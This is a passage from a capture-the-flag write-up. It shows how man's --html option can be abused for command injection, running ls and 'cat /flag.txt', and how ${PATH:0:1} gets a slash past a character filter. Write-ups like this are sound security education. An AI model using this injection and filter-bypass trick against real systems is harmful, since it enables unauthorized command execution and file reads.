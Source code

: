 So, theoretically, if I specify another binary that isn't a browser, it should execute. I tried to do this locally and execute the `ls` command, but it didn't work. I don't know the reason why but might be because it's a different implementation of `man` compared to the container's `man` binary.

```sh
$ man --html=ls man
man: command exited with status 3: (cd /tmp/hmanyFvR7I && /usr/libexec/man-db/zsoelim) | (cd /tmp/hmanyFvR7I && /usr/libexec/man-db/manconv -f UTF-8:ISO-8859-1 -t UTF-8//IGNORE) | (cd /tmp/hmanyFvR7I && preconv -e UTF-8) | (cd /tmp/hmanyFvR7I && tbl) | (cd /tmp/hmanyFvR7I && groff -mandoc -Thtml)
```

*EDIT: Someone mentioned it not working on local machine on discord after the CTF and hashkitten (the author) mentioned you need to install some packages.*

![Local Error Discussion](images/manic/local_error_discussion.png)

I ran it in a local docker container instead, using the provided Dockerfile to match the exact environment and I was able to execute the `ls` binary!

```sh
$ docker build -t manic .
$ docker run -it --entrypoint bash manic
nobody@21aa2caa1ab3:/app$ man --html=ls man
/tmp/hmandNHcO9/man.html
```

#### Utilising the Command Injection

Testing with a few other commands, I found that the command being executed will look like this:

```
<BROWSER> <TMP_DIR>/<COMMAND>.html
```

So `man --html=ls man` will execute `ls /tmp/<RANDOM_STRING>/man.html`.

You can also include arguments for your commands like `man --html="ls -l" man`

Now all we have to do is read the flag!

```bash
man --html="cat /flag.txt" man
```

Sure that works on the docker container, however, there's a forward slash required in our payload! To bypass this, we identify that the command we specify in the HTML argument is safe from the `subprocess.run` function's safe argument passing, allowing us to do shell expansions. Therefore, we can specify a slash with parameter expansion as we know the first character of the env variable `PATH` will be "/": 

```bash
${PATH:0:1}
```

